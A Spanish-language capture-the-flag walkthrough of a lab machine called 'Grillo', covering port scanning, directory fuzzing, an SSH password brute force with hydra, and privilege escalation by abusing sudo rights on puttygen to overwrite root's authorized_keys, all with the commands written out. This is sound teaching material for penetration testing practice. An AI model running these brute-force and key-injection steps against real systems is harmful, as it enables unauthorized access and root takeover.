










# 🦗 Grillo

**Por PanTrO**

¡Vamos con una nueva máquina! Esta vez le toca el turno a **Grillo** (`192.168.1.14`). A veces las máquinas más silenciosas son las que tienen los descuidos más obvios. Vamos a ver cómo pasar de un simple comentario en una web a tener una shell de root.

---

## Fase 1: Reconocimiento. Escaneando el entorno.

Como siempre, lo primero es ver qué puertas están abiertas. Lanzo un escaneo completo de puertos para mapear la superficie de ataque:


```Bash
nmap --stats-every=5s -p 0-65535 --open --min-rate=5000 -T5 -A -sT -Pn -n -v 192.168.1.14 -oX nmap_TCP.xml && xsltproc nmap_TCP.xml -o nmap_TCP.html
```

**Puertos abiertos:**

- **22/tcp (SSH):** OpenSSH 9.2p1 (Debian).

- **80/tcp (HTTP):** Apache httpd 2.4.57.



---

## Fase 2: Enumeración Web. El descuido de Melanie.

Al entrar en la IP por el navegador, aparece la típica página de "It works!" de Apache. Pero el diablo está en los detalles: al revisar el código fuente (o bajar hasta el final de la página), me encuentro con esta joya:



> `// Cambia la contraseña de ssh por favor melanie`

¡Boom! Ya tenemos un usuario válido: **melanie**.

---

## Fase 3: Fuzzing e Intrusión. El Grillo empieza a cantar.

Antes de lanzarme a lo loco, quise asegurar el tiro haciendo un poco de fuzzing por si había algún panel de control o directorio oculto.

**Escaneo con FFuf:**


```Bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/combined_directories.txt:FUZZ -u http://192.168.1.14/FUZZ -t 300 -mc 200,301
```



**Escaneo con Gobuster:**


```Bash
gobuster dir -u http://192.168.1.14/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html
```



Ambos dieron negativo (solo el `index.html`), así que el camino estaba claro: **SSH**. Lancé a `hydra` para ver si Melanie seguía con una contraseña débil:


```Bash
hydra -l melanie -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.14
```

`hydra` cantó la contraseña y ya estábamos dentro.



---

## Fase 4: Escalada de Privilegios. Jugando con Puttygen.

Ya como `melanie`, toca ver cómo subir a lo más alto. Al tirar el clásico `sudo -l`, apareció algo poco común:



```Bash
User melanie may run the following commands on grillo:
    (root) NOPASSWD: /usr/bin/puttygen
```

**¿Qué es Puttygen?** Es la herramienta de PuTTY para generar y convertir claves SSH. Lo interesante aquí es que tiene un parámetro (`-o`) para especificar el archivo de salida. Al poder ejecutarlo como **root**, podemos obligar al binario a escribir (o sobrescribir) cualquier archivo del sistema. Es lo que llamamos una **Escritura Arbitraria de Archivos**.

---

## Fase 5: El asalto final (SSH Key Injection).

La estrategia es de manual: voy a generar mi propia llave SSH y usar `puttygen` para "autorizarme" dentro de la cuenta de root.

1. **Generamos la llave:**


```Bash
 melanie@grillo:~$ ssh-keygen
```



2. **Inyectamos la pública en root:** Usamos el poder de `sudo` para que `puttygen` escriba nuestra llave en el archivo de confianza de root:


```Bash
 sudo /usr/bin/puttygen /home/melanie/.ssh/id_rsa.pub -O public-openssh -o /root/.ssh/authorized_keys
```


3. **¡Root!** Ahora solo queda entrar por SSH localmente:


```Bash
ssh root@localhost
```



---

## Fase 6: Flags. 🏁

Una vez como root, solo queda recoger la recompensa:


```Bash
cat /home/melanie/user.txt
cat /root/root.txt
```

